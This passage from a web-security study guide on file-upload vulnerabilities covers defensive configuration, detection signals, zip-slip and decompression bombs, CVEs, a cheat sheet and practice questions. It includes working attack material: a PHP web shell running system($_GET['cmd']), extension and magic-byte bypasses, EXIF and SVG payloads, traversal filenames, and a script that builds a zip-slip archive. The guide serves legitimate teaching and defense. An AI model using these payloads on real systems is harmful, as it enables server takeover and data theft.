    add_header Content-Disposition attachment;
    types { } default_type application/octet-stream;         # force download
}
```

```python
# Application-side: allow-list + real content check + re-encode + random name (Part 8.6 pattern).
# The three lines that matter most: an ALLOW-list, image RE-ENCODING, and a server-generated NAME.
```

The `AllowOverride None` line is the specific defense against the `.htaccess` bypass (Part 4): if the
upload directory can't be reconfigured by an uploaded `.htaccess`, that entire bypass class dies. The
combination — no execution, no overrides, forced download, `nosniff` — means even a successfully-
uploaded shell is inert, which is why storage configuration outranks input validation in the priority
list.

**Detection signals:**

| Signal | Where | Indicates |
|---|---|---|
| Uploaded files with script extensions (`.php`, `.phtml`, `.jsp`, `.aspx`) | Upload logs / FS monitoring | Web-shell upload attempt |
| Requests to files in the upload dir with `?cmd=`/`?c=` params | Web logs / WAF | Web-shell interaction |
| Filenames containing `../`, null bytes, double extensions, `.htaccess` | Upload/WAF logs | Traversal / bypass attempts |
| New executable files appearing in web-served directories | FIM (file-integrity monitoring) | Successful web-shell drop |
| Image files whose bytes contain `<?php`/`<script` | Content scanning | Polyglot/embedded payload |
| Web-server process spawning shells (`sh`, `cmd.exe`) | EDR / process telemetry | Web shell executing commands |

**Blue-team usage:** file-integrity monitoring on web-served directories (alert on any new
`.php`/executable file) plus EDR alerts on the web-server user spawning a shell are the two highest-
signal detections for a live web shell. **IR use case:** on suspected upload compromise, search
web-served directories for recently-created script files and files whose content mismatches their
extension (a `.jpg` containing `<?php`), and review upload logs for bypass-shaped filenames; a web
shell is often the persistence mechanism, so hunt for the dropped file, not just the initial request.

## Part 12: Archive, Zip-Slip, and Decompression Attacks

Uploads that are *archives* (zip, tar, and formats built on them — DOCX, XLSX, JAR, APK, IPA) add a
distinct attack surface, because the server *extracts* them and extraction is another place
attacker-controlled paths and sizes cause harm.

**Zip-slip (path traversal on extraction).** A zip entry's *name* can contain `../` sequences. If the
extractor joins the entry name to a destination directory without validating it, extracting a crafted
archive writes files *outside* the intended directory — the traversal of Part 7, delivered via archive
entries. A single malicious zip can drop a web shell into the web root, overwrite `authorized_keys`, or
plant a cron file:

```text
# Malicious zip entry names (built with a script, since normal zip tools resist ../):
../../../../var/www/html/shell.phtml
../../../../home/user/.ssh/authorized_keys
```

```python
# Building a zip-slip archive (lab/demonstration):
import zipfile
with zipfile.ZipFile("evil.zip", "w") as z:
    z.writestr("../../../../tmp/zipslip-proof.txt", "escaped the extraction dir")
# A vulnerable extractor writes to /tmp instead of the intended output folder.
```

Zip-slip has affected many libraries and applications across languages (the 2018 Snyk "Zip Slip"
disclosure covered dozens). **Defense:** during extraction, resolve each entry's final path and verify
it stays within the destination directory (`os.path.realpath(dest_join) startswith realpath(dest)`);
reject entries with absolute paths or `..`.

**Decompression bombs (DoS).** A small archive that expands to an enormous size ("zip bomb" — e.g. the
classic 42 KB → 4.5 PB nested zip) or an XML "billion laughs" entity expansion exhausts memory/disk and
denies service. **Defense:** cap the extracted size and entry count, and stream-extract with limits
rather than decompressing wholesale.

**Symlink and special-entry tricks.** Tar archives can contain symlinks or device entries; an extractor
that follows a symlink entry can be steered to write through it to an arbitrary location — another
extraction-time escape. Disable symlink following and special entries on untrusted archives.

| Archive attack | Mechanism | Defense |
|---|---|---|
| Zip-slip | `../` in entry names → write outside dir | Validate resolved path within dest |
| Zip/XML bomb | Tiny archive expands hugely → DoS | Cap size/entries; stream with limits |
| Symlink entry | Extract through a symlink to arbitrary path | Disallow symlink/special entries |
| Nested archives | Recursion exhausts resources | Limit recursion/depth |

**Security relevance:** any feature that accepts DOCX/XLSX/JAR/ZIP and *processes* it (office-doc
import, resume parsing, app-package analysis) is an archive-extraction surface — test it for zip-slip
and bombs even when a raw ".zip upload" isn't offered, because the office/app formats are zips
underneath.

## Part 13: Real-World Impact, CVEs & Escalation

Insecure file upload is a top RCE source because the escalation is short and severe:

- **Web-shell RCE** on CMS platforms and their plugins/themes (WordPress, Joomla, Drupal ecosystems)
  is a perennial source of mass compromise — an unrestricted or bypassable upload in a plugin yields a
  shell, then server takeover.
- **Extension/parser bypass CVEs** recur across upload libraries and web servers (double-extension
  execution, `.htaccess` overrides, IIS handler quirks).
- **ImageTragick (CVE-2016-3714)** — RCE via crafted images processed by ImageMagick, affecting any
  site that resized user uploads with a vulnerable version.
- **Zip-slip (2018)** — a cross-ecosystem archive-extraction traversal affecting many popular
  libraries.
- **Stored XSS via SVG/HTML uploads** and **XXE via SVG/office documents** are common medium-to-high
  findings where uploads are served on the app origin or parsed as XML.

File upload maps to OWASP **A03 Injection**-adjacent and **A04 Insecure Design** / **A05 Security
Misconfiguration** depending on the root cause; the RCE outcome is what drives severity. The escalation
ladder:



A durable framing is the **"content + context" matrix**: severity is the product of *what content you
can get accepted* (arbitrary bytes? only re-encoded images? only specific types?) and *what context the
file lands in* (executed as server code? served on the app origin? parsed by a processor? stored inert
outside the web root?). Maximum impact — RCE — requires both an executable-content acceptance and an
executing context; remove either axis and the outcome degrades to XSS, information disclosure, or
nothing. This is why the same upload feature can be Critical on one deployment (executes uploads) and
Informational on another (inert storage) with identical validation code, and why your testing should
always establish *both* axes before rating the finding.

**CTF relevance:** upload challenges are extremely common — bypass an extension/MIME/magic-byte filter
to plant a shell, or use `.htaccess`/polyglot tricks — and reward exactly the Part 4–6 techniques;
picoCTF, HTB, and THM web boxes frequently gate root/RCE behind an upload bypass.

## Part 14: Common Pitfalls & Gotchas

- **Blocklisting extensions.** Always incomplete (`.phtml`, `.phar`, `.pht`, case, doubles); use an
  allow-list and, better, don't execute the upload dir at all.
- **Trusting `Content-Type`.** Client-set and spoofable; verify real content server-side.
- **Magic-byte check alone.** Polyglots pass it; re-encode to strip payloads.
- **Using the client filename for storage.** Enables path traversal and overwrite; generate random
  server-side names.
- **Serving uploads on the app origin, rendered.** SVG/HTML → stored XSS; force download + separate
  origin + `nosniff`.
- **Forgetting the processor is attack surface.** ImageMagick/XML/archive extraction can be exploited
  independent of storage; patch and sandbox them, disable XXE, validate zip entries.
- **Validate-then-store races.** Store-then-validate leaves an executable window; validate before
  persisting to a servable location.
- **Executable upload directory.** The root cause of most RCE; disable script execution there or store
  outside the web root.
- **Using a real shell in a PoC.** A benign marker + `id` proves RCE safely; don't deploy backdoors or
  explore beyond scope.

## Part 15: Final Revision / Summary

- An upload is dangerous when attacker-controlled **content** lands in a **location** the server
  executes or serves, under a **retrievable name** (Part 1); the flagship outcome is a **web shell →
  RCE** (Part 2).
- Most defenses check the **name** or **client type** and are bypassable: **extension** tricks
  (alternate/`.phtml`, case, double `shell.php.jpg`, null/trailing, `.htaccess` to make `.jpg`
  executable — Part 4); **`Content-Type`** spoofing and client-side-only validation (Part 5);
  **magic-byte** prepend and **polyglots**/EXIF-embedded PHP, plus **SVG→XSS/XXE** (Part 6).
- **Filename path traversal** (Part 7) controls *where* the file lands — into the web root or over
  sensitive files. **Archive uploads** (Part 10) add **zip-slip** (traversal on extraction) and
  **decompression bombs**.
- **Defend** (Part 11): store uploads **outside the web root / non-executing**, **allow-list**
  extensions + verify real content, **re-encode** to strip payloads, **random server-side filenames**,
  size/zip-slip limits, patched/sandboxed processors, and serve user files as **downloads on a separate
  origin** with `nosniff`.
- Detection: file-integrity monitoring for new executables in web dirs, EDR alerts on the web-server
  user spawning shells, and content scanning for extension/content mismatches.
- The unifying lesson (Parts 9–10): severity is the product of **content accepted × execution
  context** — RCE needs both an executable payload accepted and an executing location, so the strongest
  single fix is making the storage location **inert**, which neutralises the entire validation-bypass
  family at once.

## Part 16: Cheat Sheet / Quick Reference

**Find + trigger:** locate the stored path (response, listing, common dirs `/uploads /files /media
/avatars`, or `ffuf`), request it, and check whether it *executes* (RCE) or is *served* (XSS/XXE).

**Minimal web shell (benign PoC)**

```php
<?php echo "RCE-PROOF-xyz"; system($_GET['cmd']); ?>   // request ?cmd=id — proves execution
```

**Extension bypasses**

| Try | Example |
|---|---|
| Alternate ext | `shell.phtml`, `.phar`, `.pht`, `.php5` |
| Case | `shell.PhP` |
| Double ext | `shell.php.jpg`, `shell.jpg.php` |
| Null / trailing | `shell.php%00.jpg`, `shell.php.`, `shell.php%20`, `shell.php::$DATA` |
| Config override | upload `.htaccess`: `AddType application/x-httpd-php .jpg` |
| Content-Type spoof | multipart part `Content-Type: image/jpeg` on a shell body |
| Client-side only | submit raw request (curl/Burp), skip the page's JS check |

**Content bypasses**

```http
Content-Type: image/jpeg          # spoofed in the multipart part; body is a shell
```
```text
GIF89a<?php system($_GET['cmd']); ?>      # magic-byte prepend
exiftool -Comment='<?php ... ?>' img.jpg  # polyglot in EXIF
<svg xmlns=...><script>alert(document.domain)</script></svg>   # SVG upload → stored XSS
```

**Traversal / archive**

```text
filename="../../../../var/www/html/shell.phtml"     # path traversal on upload
zip entry "../../../var/www/html/shell.phtml"        # zip-slip on extraction
```

**Defense map**

| Control | Kills |
|---|---|
| Store outside web root / no script execution | web-shell RCE |
| Extension allow-list + real content check | extension/MIME bypasses |
| Re-encode images | polyglot/EXIF payloads |
| Random server-side filename, fixed dir | path traversal / overwrite |
| Validate zip entry paths; size caps | zip-slip / decompression bombs |
| Serve as attachment, separate origin, `nosniff` | stored XSS via SVG/HTML |
| `AllowOverride None` on upload dir | `.htaccess` execution-config bypass |
| Validate-before-persist (no store-then-check) | upload race window |
| Patched/sandboxed image & XML processors | ImageTragick / XXE / SVG |

## Part 17: Practice Labs & Resources

- **PortSwigger Web Security Academy — File upload vulnerabilities (all labs):** "Remote code
  execution via web shell upload", "via Content-Type restriction bypass", "via path traversal", "via
  extension blacklist bypass" (`.htaccess`), "via obfuscated file extension", "Remote code execution
  via polyglot web shell upload", and "via race condition". One-to-one with Parts 2–8. Free, with a
  shell-execution target.
- **OWASP File Upload Cheat Sheet & WSTG-BUSLOGIC/INPVAL upload tests:** authoritative defense and
  testing references.
- **DVWA (File Upload, low/medium/high) and OWASP Juice Shop:** graded upload-bypass practice.
- **HackTheBox / TryHackMe upload rooms and "Upload Attacks" module:** guided web-shell-via-bypass
  boxes.
- **Zip-slip resources (Snyk research) and Gopherus/ImageTragick PoCs:** for the archive and processor
  classes (Parts 6, 10).
- **Disclosed HackerOne reports (filter `file upload` / `rce`):** accepted upload-to-RCE write-ups for
  bypass techniques and safe-PoC framing.

An instructive way to weight your effort: the *storage* control (inert directory outside the web root)
is a single configuration that neutralises the *entire* extension/MIME/magic-byte/polyglot bypass
family at once, whereas input validation is a running battle against an open-ended list of tricks.
That asymmetry — one robust control versus many fragile ones — is the core lesson of the chapter and
should shape both how you prioritise a fix as a defender and where you look for the gap as an attacker
(an app that validates heavily but serves uploads from an executing directory is more promising than
one that stores inertly but validates loosely).

**Practice questions**

1. An upload endpoint allow-lists `.jpg`/`.png` by checking the last extension and validates the
   `Content-Type` header. Describe two independent bypasses that still let you upload an executable PHP
   file, and the single storage-side change that would defeat both regardless of the bypass.
2. Explain how a file can pass a magic-byte (signature) check while still executing as PHP, give the
   exact byte trick, and state the defense that reliably neutralises it.
3. A server stores uploads in a directory *outside* the web root, yet you still achieve RCE. Explain
   two distinct mechanisms (one filename-based, one config-based) by which this is possible.
4. Describe the zip-slip attack against a feature that extracts uploaded `.zip` files, including a
   malicious entry name and the exact server-side validation that prevents the escape.
5. You upload an SVG as an "avatar" and it's served from the application's own origin. Describe two
   distinct vulnerabilities this can cause and the serving-side headers/origin change that prevents
   both.
6. A direct `.php` web-shell upload is blocked, but the app has a local file inclusion elsewhere and an
   avatar upload that stores your image (any extension) on disk. Explain how you combine these into
   RCE, and why the upload's extension and location don't matter for this chain.
7. A server stores uploads with random names and refuses `.php`, yet you find `.htaccess` uploads are
   permitted into the uploads directory. Explain the full exploitation path to RCE and the one Apache
   directive that prevents it.
8. A feature imports uploaded `.xlsx` spreadsheets. Given that `.xlsx` is a ZIP archive internally,
   name two attack classes you would test against the import even though no raw `.zip` upload is
   offered, and the extraction-time check that mitigates the traversal case.
9. Two deployments run identical upload-validation code; one is rated Critical and the other
   Informational. Using the "content × context" matrix, explain how that is possible and what single
   deployment property accounts for the difference.

With this chapter the server-side "get code or content onto the server" theme is covered from the
upload side. The final chapter of this notebook completes the picture from the *path* side — path
traversal, LFI, and RFI — which supply the inclusion and file-read primitives that pair with uploads
(the LFI-to-RCE chain of Part 10) and stand as high-impact bugs in their own right.
